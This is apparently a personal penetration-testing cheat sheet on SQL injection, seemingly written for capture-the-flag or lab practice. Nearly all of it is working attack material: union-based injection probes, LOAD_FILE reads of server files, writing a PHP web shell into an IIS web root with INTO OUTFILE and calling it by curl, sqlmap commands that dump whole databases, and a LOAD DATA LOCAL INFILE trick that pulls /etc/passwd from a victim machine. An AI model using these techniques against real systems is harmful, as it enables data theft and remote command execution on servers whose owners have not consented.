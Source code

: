 SQL related

## Main example

- Try directly in the url, or in the data sent :
- ' 
- ' -- -
- ' order by 1-- -
- increase this until you found the number of field you can control
- 'union select 1,2,... -- -
- Then in the field you can see, inject whatever you want
- Use the payloads from payloadallthethings

### Find information about the database

- type in google information schema \<type_of_db(mysql for example)\>

- Information Gathering for SQLI : https://sqlwiki.netspi.com/attackQueries/informationGathering/#mysql


### Subquerry returns more than 1 row :

- ```select group_concat(<your_query(for example scheme_data>)```

### Want to have a better view 

- add separator to your query : ```SEPARATOR '\n'```

### Load file

- ```select concat("\n\n", TO_BASE64(LOAD_FILE("C:\\\\inetpub\\\\wwwroot\\\\admins.php")),"\n\n")```

### Reverse shell

- ```union select "test",2,3 INTO OUTFILE "C:\\\\inetpub\\\\wwwroot\\\\test.txt"```

- Hit this two times
- If it works :
- ```"<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```
- ```curl ...?cmd=whoami```
- you can replace by ```INTO DUMPFILE```

---

## SQLMAP

### Use injection found before with burpsuite

- Note that it is not working well with the sqlmap download from source on arch linux. If so, download from git directly the binary.

- right click, copy to a file (from intruder window)

- delete the part you inject (the ' too)

- ```sqlmap -r \<file\> --technique=U --batch --dump-all```

- Here the technique used is Union because we found it before, but there are others available (BEUST)

- If you don't know the type of injection : ```sqlmap -r <file> -p productName --dbs```
- or ```sqlmap -r <file> --threads=10 --dbs```

- add ```--batch``` to skip all the questions

- Then, you have the databases, go and see what tables are inside : ```sqlmap -r <file> -D <database> --tables```
- Then dump the needed table : ```sqlmap -r <file> -D <database> -T <table> --dump

### Reverse shell with sqlmap

- On mysql we can check if we have the permission to write on disk with following commands

	
- ```sql-shell> select @@secure_file_priv;```
	
- ```sql-shell> select @@global.secure_file_priv;```


- If their content is empty it’s mean we can !

- Usually the root of the IIS application is at c:/inetpub/wwwroot/ so I tried

	
- ```sql-shell> SELECT "<pre><?php system($_GET['cmd']); ?></pre>" INTO OUTFILE 'c:/inetpub/wwwroot/7868768678.php'```

- and now testing if it was successfully written

	
- ```curl "http://10.10.10.167/7868768678.php?cmd=whoami"```

---

## Remote access to a sql database

https://www.linode.com/docs/databases/mariadb/mariadb-setup-debian/

- edit my.cnf.d/server.cnf with the bind address

- create a database and a table :

```
create database exploit;
use exploit;
create table dmp(content varchar(5000));
```


- Then see if you can load file from victim machine :

```
LOAD DATA LOCAL INFILE '/etc/passwd' 
INTO TABLE test.test
FIELDS TERMINATED BY "\n"
```

---

## Lot of stuff

https://sushant747.gitbooks.io/total-oscp-guide/sql-injections.html

---

## Login and password of mysql database and connected on the machine ?

- ```mysqldump --databases <database> -u<user> -p<password>```
	

